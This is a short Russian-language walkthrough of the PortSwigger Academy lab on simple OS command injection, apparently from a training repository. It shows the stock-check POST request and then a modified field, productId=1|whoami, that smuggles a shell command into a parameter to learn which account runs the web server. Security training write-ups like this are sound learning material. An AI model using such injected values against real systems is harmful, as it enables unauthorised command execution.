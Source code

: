 Откроем саму лабораторную работу
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/4.%20OS%20command%20injection/1.%20OS%20command%20injection%2C%20simple%20case/pics%20for%20walktrough/1.png)

Далее перейдем в отдельную карточку товара
```
GET /product?productId=1
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/4.%20OS%20command%20injection/1.%20OS%20command%20injection%2C%20simple%20case/pics%20for%20walktrough/2.png)
Проверим наличие товара, нажав на кнопку `Check stock`, и видим, что у нас метод `GET` изменился на метод `POST`
```
POST /product/stock
...
productId=1&storeId=2
```

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/4.%20OS%20command%20injection/1.%20OS%20command%20injection%2C%20simple%20case/pics%20for%20walktrough/4.png)
Далее воспользуемся уязвимостью, и попробуем узнать название учетной записи, от чьего имени запущен веб ресурс с помощью модификации вводимых параметров
```
POST /product/stock
...
productId=1|whoami&storeId=2
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/4.%20OS%20command%20injection/1.%20OS%20command%20injection%2C%20simple%20case/pics%20for%20walktrough/3.png)
По полученному пути возможно идентифицировать пользователя
